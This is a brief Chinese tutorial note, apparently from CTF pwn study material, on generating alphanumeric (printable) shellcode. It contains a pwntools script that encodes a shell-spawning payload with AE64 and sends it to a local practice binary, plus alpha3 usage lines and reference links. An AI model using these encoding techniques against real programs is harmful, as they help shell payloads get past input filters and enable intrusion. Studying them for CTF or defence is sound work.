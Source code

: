 # Alphanumeric Shellcode(Printable Shellcode) 可见字符shellcode

该程序可输入的字符范围为：0x30~0x7a

可以使用工具生成对应架构的Alphanumeric Shellcode

+   AE64：生成x64 shellcode

    +   ```python
        #使用方法：
        from pwn import *
        from ae64 import AE64
        
        context.log_level = 'debug'
        context.arch = 'amd64'
        
        p = process('./example1')
        
        obj = AE64()
        sc = obj.encode(asm(shellcraft.sh()),'r13')#这里r13是基于call r13.可自行调整
        
        p.sendline(sc)
        
        p.interactive()
        ```

+   alpha3：生成各种类型的字符shellcode

    +   生成x64 ： python ./ALPHA3.py x64 ascii mixedcase rax --input="shellcode"
        +   rax基于call rax

    +   生成x86 ： 选项比较多
        +   x86 ascii uppercase (数字+大写字母)
        +   x86 ascii lowercase (数字+小写字母)
        +   x86 ascii mixedcase (数字+大小写字母)

    工具使用参考：https://www.freebuf.com/articles/system/232280.html

    https://www.anquanke.com/post/id/85871

    具体：https://nets.ec/Alphanumeric_shellcode

    https://web.archive.org/web/20110716082815/http://skypher.com/wiki/index.php?title=X86_alphanumeric_opcodes

    https://web.archive.org/web/20110716082850/http://skypher.com/wiki/index.php?title=X64_alphanumeric_opcodes